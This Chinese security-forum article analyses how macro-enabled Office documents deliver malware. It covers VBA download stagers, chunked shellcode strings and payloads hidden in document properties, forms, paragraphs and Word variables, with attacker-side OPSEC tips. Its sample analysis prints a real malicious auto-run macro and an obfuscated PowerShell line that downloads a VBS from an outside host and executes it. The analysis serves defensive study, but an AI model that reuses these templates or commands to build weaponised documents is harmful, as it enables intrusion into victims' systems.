# 传统Office结构下的后门和利用手段解析-先知社区

> **来源**: https://xz.aliyun.com/news/16430  
> **文章ID**: 16430

---

## 前言

本文章中我们来讨论攻击者使用启用宏的Office文档来传递恶意代码的各种手段，概括了stager和stagerless的方式和相关的VBA实现方式，然后深入探究一下在OpenXML结构中隐藏攻击者意图的方法。这篇文章主要探讨比较基础的方式，后面有机会我们再谈谈一些用于隐藏Word，Excel和PowerPoint中的恶意数据，绕过工具及人员的分析的比较新（雾）的技术。

## 典型的payload传输策略

攻击中大多数恶意文档都必须向目标系统中接收shellcode、恶意可执行文件或其他恶意文件，常见的方法有下面几种：

1. 从网络获取payload（分阶段）
2. 直接把payload嵌入VBA（无阶段）
3. 在文档结构中隐藏payload（无阶段）

### 互联网分阶段payload

从互联网上提取payload是一种比较边界线的方法，提供了更多的灵活性和可控制性，例如：如果察觉到被溯源，我们可以改变恶意文档获取的第二阶段payload的内容从恶意资源到正常内容，笔者就经常分析到一些跑路很快的样本。

这里有两种常用的互联网VBA stager实现，模版如下：

**Microsoft.XMLHTTP**

```
Function obf_DownloadFromURL(ByVal obf_URL As String) As String
    On Error GoTo obf_ProcError

    With CreateObject("Microsoft.XMLHTTP")
        .Open "GET", obf_URL, False
        .setRequestHeader "Accept", "*/*"
        .setRequestHeader "User-Agent", "<<<USER_AGENT>>>"
        .setRequestHeader "Accept-Encoding", "gzip, deflate"
        .setRequestHeader "Cache-Control", "private, no-store, max-age=0"
        <<<HTTP_HEADERS>>>
        .Send

        If .Status = 200 Then
            obf_DownloadFromURL = StrConv(.ResponseBody, vbUnicode)
            Exit Function
        End If
    End With

obf_ProcError:
    obf_DownloadFromURL = ""
End Function
```

**InternetExplorer.Application**

```
Function obf_DownloadFromURL(ByVal obf_URL As String) As String
    On Error GoTo obf_ProcError

    With CreateObject("InternetExplorer.Application")
        .Visible = False
        .Navigate obf_URL

        While .ReadyState <> 4 Or .Busy
            DoEvents
        Wend

        obf_DownloadFromURL = StrConv(.ie.Document.Body.innerText, vbUnicode)
        Exit Function
    End With

obf_ProcError:
    obf_DownloadFromURL = ""
End Function
```

这两个中更常见的是Microsoft.XMLHTTP，而InternetExplorer.Application在严重依赖IE的环境中更隐蔽

但是，每种方法都有缺点，从Office应用程序发送请求很容易被察觉到异常，并且会将另一个事件添加到相关的事件包中

然后还有一个两难的问题，即VBA发起的请求应该是什么样子？什么样的头、用户代理、是否硬编码、在哪里托管payload、域及其成熟度、TLS证书内容如何。从进攻的角度来看，从互联网上获取payload并不是很好的方法，这种方法通常不能真正的隐藏，而是引入一些新问题

### 在VBA中嵌入恶意数据

这一种方法可能同样易于实施，但需要避免网络连接，使感染链保持无阶段性，自从Office恶意软件存在以来，无论是能力在什么程度的攻击者都可以一直依赖于这一原则：让 VBA 解码恶意数据字节，拼接所有的分段内容并输出成完整的payload

例：

```
Private Function obf_ShellcodeFunc81() As String
    Dim obf_ShellcodeVar80 As String
    obf_ShellcodeVar80 = ""
    ...
    obf_ShellcodeVar80 = obf_ShellcodeVar80 & "800EK+3YvPe6wFO6tCVI91lg2Bi3ae8DNtlWbCczAi+XnmipCn3kRpi2js7bNntB0TC/qn2WiYP275Z9"
    obf_ShellcodeVar80 = obf_ShellcodeVar80 & "HVkgI4GH7dOACixe7W5qjTL8HIzH6mYubKWDgvlbe72MfmkGUJKquPm+Ap5bRxceDpUag64Z3HccyfYM"
    obf_ShellcodeVar80 = obf_ShellcodeVar80 & "NNacM35abBiGPNRBGL7G82Pv/uxL2G+aZgQXJdnxOLpTaj7QOJYb07+qqZa0v86U+dBpUWXziW7TiiAh"
    ...
    obf_ShellcodeFunc81 = obf_ShellcodeVar80
End Function

Private Function obf_ShellcodeFunc35() As String
    Dim obf_ShellcodeVar34 As String
    obf_ShellcodeVar34 = ""
    ...
    obf_ShellcodeVar34 = obf_ShellcodeVar34 & "5/FrooZq8NT/0izIE93LbjRes6WfzjpIWqthlztCSldPtj3QIga5wHXkiDbhTFcUHqOW9toGVUid9bv/"
    obf_ShellcodeVar34 = obf_ShellcodeVar34 & "T5Hrm2PP+xPtVz/LlzFGbCL9aKXfTW7GEBQYpw66VQj/nOleZrciTLbN3noDJUo0AuGVtbNQUVu9zi3q"
    obf_ShellcodeVar34 = obf_ShellcodeVar34 & "GpOYCZiaPNOxbBIiDdxgMvpoftErBPG/O65lfoP8ERbameOFCfybXWLZe3l3n6z/9rcmsZguSFr/tmoc"
    ...
    obf_ShellcodeFunc35 = obf_ShellcodeVar34
End Function

Private Function obf_ShellcodeFunc3() As String
    Dim obf_ShellcodeVar96 As String
    obf_ShellcodeVar96 = ""
    obf_ShellcodeVar96 = obf_ShellcodeVar96 & obf_ShellcodeFunc12()
    obf_ShellcodeVar96 = obf_ShellcodeVar96 & obf_ShellcodeFunc15()
    ...
    obf_ShellcodeVar96 = obf_ShellcodeVar96 & obf_ShellcodeFunc95()
    obf_ShellcodeFunc3 = obf_ShellcodeVar96
End Function
```

VBA 语法还对代码施加了一些限制，不满足就会报错

* 单行代码中不超过128个字符
* 单个函数/子例程中不超过128行

试想一下，一大堆过长的、类似的返回字符串或字节数组的函数，就算是非专业人员看到这些代码，也会察觉到异常；而云沙箱环境或杀软等所使用的机器学习模型也会根据这种可疑的特征相似性来查杀

这种方法只有在我们隐藏的payload非常小（比如几百字节）时才行，否则，从隐藏性的角度来看这种方法是行不通的

### 文档结构中隐藏payload

在OpenXML结构、XML 节点及文档中的其它未知区域，有很多地方可以插入payload，隐藏恶意数据不被发现或查杀。

下面我们来看看经常会遇到的几个：

1. 文档属性
2. Office表单及其输入或组合字段
3. ActiveDocument段落和工作表
4. Word变量

它们的共同特点是恶意数据将以某种方式储存在某个满足OpenXML规范的XML文件、节点或某个属性中，我们可以使用专业的分类工具（olevba或oledump等）从中提取恶意数据。

#### 文档属性

将payload隐藏在文档属性中的想法已经被利用很长时间了，VBA实现很简单，payload的位置可以轻松调整，以便快速更新其payload，然而对于杀软或分析工具来说，提取隐藏数据同样很简单

通常，文档属性存储在docProps/core.xml和docProps/app.xml中，可以直接解压后提取

> Office 2007+ 文档本质上为ZIP，由一组XML和其他构成文档内容的二进制流组成

例：

```
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<cp:coreProperties
    xmlns:cp="http://schemas.openxmlformats.org/package/2006/metadata/core-properties"
    xmlns:dc="http://purl.org/dc/elements/1.1/"
    xmlns:dcterms="http://purl.org/dc/terms/"
    xmlns:dcmitype="http://purl.org/dc/dcmitype/"
    xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
    <dc:title></dc:title>
    <dc:subject>calc.exe</dc:subject>
    <dc:creator>test</dc:creator>
    <cp:keywords></cp:keywords>
    <dc:description></dc:description>
    <cp:lastModifiedBy>test</cp:lastModifiedBy>
    <cp:lastPrinted>2024-12-27T12:29:26Z</cp:lastPrinted>
    <dcterms:created xsi:type="dcterms:W3CDTF">2024-12-27T12:29:26Z</dcterms:created>
    <dcterms:modified xsi:type="dcterms:W3CDTF">2024-12-27T12:29:26Z</dcterms:modified>
    <cp:category></cp:category>
    <dc:language>zh-CN</dc:language>
</cp:coreProperties>

```

在制作恶意文档之前，我们需要将core.xml和app.xml匿名化，避免在文档的元数据中留下制作者的信息（相信大家肯定也有过没注意到元数据从而被溯源的情况，笔者分析过的许多成熟样本中也经常发现这种失误，我们一般把这种情况称为OPSEC失误）。

#### Office表单

我们还可以将其恶意存储在表单控件中，然后在恶意软件执行时动态地提取，这里以一个样本为例：

```
hash:
046f05c9ea4e43770c6fd7621b0d279d4a8429624729a194335c93612184fba6
```

从属性中可以找到恶意数据





现代杀软或相关专业工具（olevba.py等）可以很简单的分析处表单的内容，下面是使用olevba分析的示例：



可以看到olevba准确的识别出了表单中的恶意内容和执行逻辑，因此这种方法的实用性也不高

#### ActiveDocument段和工作表

还有一种特定于MS Word的方法是滥用文档静态实例公开的Paragraphs对象，一个想法是使用以下方法将payload隐藏在Excel单元格中：

```
ThisWorkbook.Sheets("Sheet1").Ranges("BL417") = "evil"
```

简单的按原句存储同样容易恢复，下面的样本是另一种武器化的示例：



我们可以看到恶意软件代码如何遍历word的段落，然后提取文本范围进行解异或处理，并构建可执行的stager2

这样的方法缺点，一般经过混淆的payload大小会增加很多倍，所以word/document.xml的文件大小会很大

```
<w:document> => <w:body> => <w:p> => <w:r>=> <w:t>

```

简单的分析一下标签中的内容就可以很快发现恶意数据

```
<w:szCs w:val="20"/>
</w:rPr>
</w:pPr>
<w:r w:rsidRPr="006330C0">
<w:rPr>
<w:color w:val="FFFFFF" w:themeColor="background1"/>
<w:szCs w:val="20"/>
</w:rPr>
<w:t>7E69A3333033333337333333CCCC33338B33333333333333733333333333333333333333333333333333333333333333333333333333333333333333B33333333D2C893D33873AFE128B327FFE12675B5A401343415C5441525E1350525D5D5C471351561341465D135A5D13777C60135E5C57561D3E3E391733333333333333637633337F323133DB8A40643333333333333333D3333C323832310133CD3333337D333333333333FCCC33333323333333233233333373333323333333313333373333333333333337333333333333333353323333313333342D3133313333333333233333233333333323333323333333333333233333333333333333333333837E323387333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333333
</w:t>
</w:r>
</w:p>
<w:sectPr w:rsidR="006330C0" w:rsidRPr="006330C0" w:rsidSect="00313CAA">
<w:pgSz w:w="11906" w:h="16838"/>
<w:pgMar w:top="1417" w:right="1152" w:bottom="1417" w:left="1152" w:header="708" w:footer="708" w:gutter="0"/>
<w:cols w:space="708"/>
<w:docGrid w:linePitch="360"/>
</w:sectPr>
</w:body>
</w:document>

```

#### Word变量

Word的另一个特殊XML区域滥用变量存储，这个区域主要是托管Word可用于生成不同文档的动态数据

例如下面的一个工具，展示了通过Word变量武器化的示例：

<https://github.com/Pepitoh/VBad>

主要代码：

```
def generate_generic_store_function(self, macro_name, variable_name, variable_value):
        set_var = self.format_long_string(variable_value, "tmp")
        if self.doc_type == ".doc":
            gen_vba = """
            Sub %(macro_name)s()
            %(set_var)s
            ActiveDocument.Variables.Add Name:="%(variable_name)s", Value:=%(variable_value)s
            End Sub
            """%{
            "set_var" : set_var,
            "macro_name" : macro_name,
            "variable_name" : variable_name,
            "variable_value": "tmp"
            }
        elif (self.doc_type == ".xls"):
            gen_vba = """
            Sub %(macro_name)s()
            %(set_var)s
            ThisWorkbook.Sheets("%(worksheet_name)s").Range("%(cell_location)s") = %(variable_value)s
            End Sub
            """%{
            "set_var" : set_var,
            "worksheet_name" : self.worksheet_name,
            "cell_location" : self.cell_location,
            "macro_name" : macro_name,
            "variable_name" : variable_name,
            "variable_value": "tmp",
            }
        return gen_vba

```

VBad将数据存储在变量中的方法是在打开Word时动态执行VBA代码，我们可以打开word/settings.xml并在\</w:settings\> 之前插入以下两个节点：

```
<w:docVars>
    <w:docVar w:name="varName" w:val="......" />
</w:docVars>

```

当然，在实际运用中检查所有payload并手动更改其结构还是有点太麻烦了，因此最好是自己编写脚本来构造

下面的例子是通过VBA读取自定义变量的值：

```
Function obf_GetWordVariable(ByVal obf_name) As String
    On Error GoTo obf_ProcError

    obf_GetWordVariable = ActiveDocument.Variables(obf_name).Value

obf_ProcError:
    obf_GetWordVariable = ""
End Function
```

这种方法通过olevba同样是......



## 样本分析

```
hash：b1df072eba923c472e461200b35823fde7f8e640bfb468ff5ac707369a2fa35e
```

这里我们以一个早期的样本为例，来简单看一下ole结构在实际攻击中的完整运用

该样本是一个xlsb文件，xlsb是Excel的二进制文本格式，与之前的格式相比，表格体积更小，打开速度更快，同时可以保存宏代码

我们直接通过olevba简单分析一下





发现存在宏代码，在表格打开的时候就会运行，随后创建了一个OLE对象，即ThisWorkbook这个表，提取出来其中的VBA代码

```
Private Sub Workbook_Open()
    Dim g5 As String
    Dim g6 As String

    g5 = ""
    g6 = ""

    g5 = Cells(2, 7)
    g6 = Cells(3, 7)

    lyDdMyWVp = wJmdrV(g5, g6)
End Sub

Function wJmdrV(eeeew As String, ifgkdfg As String)
    Dim DGjG() As Variant

    ReDim DGjG(4)
    DGjG(0) = "p" + ifgkdfg
    DGjG(1) = "ping google.com;" + eeeew
    DGjG(2) = ""
    DGjG(3) = ""
    DGjG(4) = 0

    Dim sSVno As Object

    Set sSVno = CreateObject(invuKAT())

    zsEd = CallByName(sSVno, RijxuydD(" S h e l l E x e c u t e "), VbMethod, _
                      DGjG(0), DGjG(1), DGjG(2), DGjG(3), DGjG(4))
End Function

Function invuKAT()
    invuKAT = RijxuydD("S h e l l . A p p l i c a t i o n")
End Function

Function RijxuydD(wjkwer As String) As String
    Dim newStr As String
    Dim i As Integer
    Dim char As String

    newStr = ""
    For i = 1 To Len(wjkwer)
        char = Mid(wjkwer, i, 1)
        If (char <> " ") Then
            newStr = newStr + char
        End If
    Next
    RijxuydD = newStr
End Function
```

最开始通过表格获取到了两段字符串，因为是xlsb，我们使用pyxlsb模块来获取

```
from pyxlsb import open_workbook

with open_workbook('your_file.xlsb') as wb:
    sheet_names = wb.sheets
    print("Available sheets:", sheet_names)

    if len(sheet_names) > 0:
        with wb.get_sheet(sheet_names[0]) as sheet:
            for row in sheet.rows():
                print([item.v for item in row])
    else:
        print("No sheets found in the file.")

```



分别得到了两个表格内的值，分析后面的wJmdrV可以发现做了拼接字符串和去空格的操作，最终调用了ShellExecute执行命令：

```
powershell ping google.com;$we22='eW.teN tc' + 'ejbO-weN('; $b4df='olnwoD.)tnei' + 'lCb'; $c3=')''sbv.csim\''+pmet:vne$,''UxKUVsB6crz3IBA=yekhtua&07712%58868200A4928F46=diser&58868200A4928F46=dic?daolnwod/moc.evil.evirdeno//:ptth''(eliFda';$TC=$c3,$b4df,$we22 -Join '';IEX(([regex]::Matches($TC,'.','RightToLeft') | ForEach {$_.value}) -join '');start-process($env:temp+ '\misc.vbs')
```

这段命令通过多个拼接，最后下载了一个外部vbs文件，并用start-process执行，地址为：

<http://onedrive.live.com/download?cid=64F8294A00286885&resid=64F8294A00286885%21770&authkey=ABI3zrc6BsVUKxU>

查看流量发现下载的为一个jpg文件，内容如下：



